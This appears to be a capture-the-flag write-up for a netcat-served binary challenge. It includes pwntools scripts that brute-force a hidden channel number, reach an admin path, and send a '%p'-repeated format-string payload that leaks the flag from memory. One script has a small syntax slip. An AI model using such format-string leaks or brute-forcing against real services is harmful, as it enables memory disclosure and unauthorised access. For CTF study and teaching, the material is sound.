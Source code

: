 # Introduction
---
For this one we have to connect to the server, For that I have used netcat.
```bash
nc localhost 1234
```
`I have the binary so I connected locally, but for you all you have to connect to server so use`<br><br>
**`nc <server IP> <port Number>`**<br><br>
After connecting you will see this<br><br>
<img src="./Assets/introMSG.png"/>

---
# Playing With The Binary
<!-- ---  -->
After Getting connected we can see that it's asking for a `hidden channel number`, this number have range from **0 to 42** as specified in the HINT 1. So, we have to guess the correct number.

and if we didn't enter the correct number, we get something that might be base64 encoded **because we can see `=` sign**.

let's decode it :
```bash
echo "Ky0rLT0rLSMrLV4jI14rPV4rLT1eKz0rIz09KyotIyo9KiteKi0tPSojKyMtKyo9IklkZW50aXR5XnRoZWZ0I2lzLW5vdCthK2pva2UsXkppbSFeTWlsbGlvbnMjb2YjZmFtaWxpZXMjc3VmZmVyLWV2ZXJ5PXllYXIuIi0tXkR3aWdodD1TY2hydXRlK149Kj0rLSorXiojPSs9Xi09Iy0jLV4rXj09LSsjPV4rKisjPS09PT09PSojXj0qLSsrXisqKiotLSo=" | base64 -d
```
<img src="./Assets/saying1.png"/><br><br>

**"Identity theft is not a joke, Jim! Millions of families suffer every year.\" - Dwight Schrute**

It's a line from **The Office** TV show. 

# Brute Forceing The Channel Number
```python
from pwn import *

target = remote("localhost",1234)
target.recvuntil(b">>> ")

for i in range(43):
    target.sendline(str(i))
    txt = target.recvuntil(">>> ").replace("\r","") # while dealing with online binaries sometimes \n is represented by \r\n which can delete some informations
    print(txt)) 
```
<img src="./Assets/brute1.png"/><br>

We got something ( or should I say **somethings** :smile: )

Decoding the Something 2 shows us the source code of this binary

<img src="./Assets/fun1.png"/><br>

Here we can see that **sendSourceCode()** function which looks like it's sending the somethings and something 1 is adminNo, which we can see in main function that if adminNo is entered instead of Channel number a **m_exit()** function will be called.

<img src="./Assets/call1.png"/><br>

# m_exit() Function
<img src="./Assets/m_exit.png"/><br>

Here we can see that the Flag is loaded in a `Flag` variable then it's asking for `yes` or `no` input, Then printing our input and exits if input is `yes`

**One strange thing here is that it's asking for 300 Bytes for yes/no input, and printing it with printf without specifing any format specifiers :thinking:**

---
# [Printf Bug](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be)
---

# Exploitation

```python
from pwn import *

target = remote("localhost",1234)
target.recvuntil(b">>> ")

for i in range(43):
    target.sendline(str(i))
    txt = target.recvuntil(">>> ").replace("\r","") # while dealing with online binaries sometimes \n is represented by \r\n which can delete some informations

    if "Something" in txt:
        adminNO = txt.split(":")[1].split('\n')[0].strip()
        print(adminNO)
        target.sendline(adminNO)
        target.recvuntil(': ')
        target.sendline("%p"*300)
        txt = target.recvuntil(b'Which')
        print(txt.split(": ")[1].replace('Which',"").replace("(nil)","")) # removing unnecessary bytes from txt
        break
```
<br>

**Run the script and paste the output in [Cyber Chef](https://gchq.github.io/CyberChef/) with these options :**

<img src="./Assets/chef1.png"/><br>
<br>
**Then try to remove txt from the input from starting/ending and eventually you will see the flag**

<img src="./Assets/flag.png"/><br>







